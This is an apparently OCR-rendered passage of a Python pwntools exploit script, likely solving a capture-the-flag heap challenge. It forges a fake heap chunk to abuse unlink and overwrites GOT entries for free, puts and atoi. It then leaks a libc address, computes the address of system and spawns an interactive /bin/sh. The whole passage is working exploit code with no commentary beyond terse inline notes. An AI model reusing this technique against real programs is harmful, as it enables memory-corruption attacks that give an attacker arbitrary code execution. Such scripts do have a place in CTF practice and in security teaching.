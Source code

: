 ```python
    shell.sendline("2")
    shell.sendline(str(idx))
    shell.sendline(str(len(cont)))
    shell.send(cont)
    shell.recvuntil("OK\n")

def free(idx):
    shell.sendline("3")
    shell.sendline(str(idx))

alloc(0x100) #1
alloc(0x30)  #2
alloc(0x80)  #3

head = 0x602140

#fake chunk
chunk_fd = head + 0x10 -0x18 #pass check
chunk_bk = head + 0x10 -0x10 #pass check

payload = p64(0)            #padding
payload += p64(0x31)        #size (chunk1 not affect,30 or 31 bath pass)
payload += p64(chunk_fd)    # chunk2 - 0x18
payload += p64(chunk_bk)    # chunk2 - 0x10
payload += p64(0)           #padding
payload += p64(0)           #padding

payload += p64(0x30)        #overwrite chunk3's prev_size
payload += p64(0x90)        #overwrite chunk3's size

fill(2, payload)            #overwrite chunk3
free(3)     #unlink globals[2] = &globals - 0x8
shell.recvuntil("OK")

payload = p64(0)
payload += p64(elf.got['free']) #globals[0]
payload += p64(elf.got['puts']) #globals[1]
payload += p64(elf.got['atoi']) #globals[2]
fill(2,payload)
payload = p64(elf.plt['puts'])
fill(0,payload)     #free@got = puts@plt

free(1)     #put(puts@pot)
puts_addr = shell.recvuntil("\nOK\n",drop=True).ljust(8,'\x00')
puts_addr = u64(puts_addr)
libcbase = puts_addr - libc.symbols['puts']
system_addr = libcbase + libc.symbols['system']

print 'puts_addr = ' + hex(puts_addr)
print 'libcbase = ' + hex(libcbase)
print 'system = ' + hex(system_addr)

payload = p64(system_addr)
fill(2,payload)

shell.sendline('/bin/sh')
shell.interactive()
```

